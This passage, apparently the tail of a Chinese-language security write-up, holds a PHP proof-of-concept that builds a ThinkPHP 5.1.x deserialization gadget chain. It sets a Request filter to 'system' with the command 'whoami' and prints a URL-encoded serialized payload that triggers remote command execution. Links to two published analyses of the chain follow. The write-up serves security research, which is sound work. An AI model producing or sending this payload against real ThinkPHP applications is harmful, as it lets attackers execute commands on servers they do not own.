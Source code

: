 ```php
        }
    }
}

namespace think{
    abstract class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
    }
    class Request{
        protected $hook = ["visible" => ["Request","isAjax"]];
        protected $filter = "system"; //filterValue()中的 filters数组
        protected $config = ['var_ajax' => '']; //input()中的 $name
        protected $param = ["whoami"]; //input()中的 $data
        function __construct(){
            $this->hook = ["visible"=>[$this,"isAjax"]];
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }

}

namespace{
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}
```




## 参考链接
1.[挖掘暗藏ThinkPHP中的反序列利用链](https://blog.riskivy.com/%E6%8C%96%E6%8E%98%E6%9A%97%E8%97%8Fthinkphp%E4%B8%AD%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%88%A9%E7%94%A8%E9%93%BE/)
2.[ThinkPHP5.1.X反序列化利用链](https://xz.aliyun.com/t/6467)
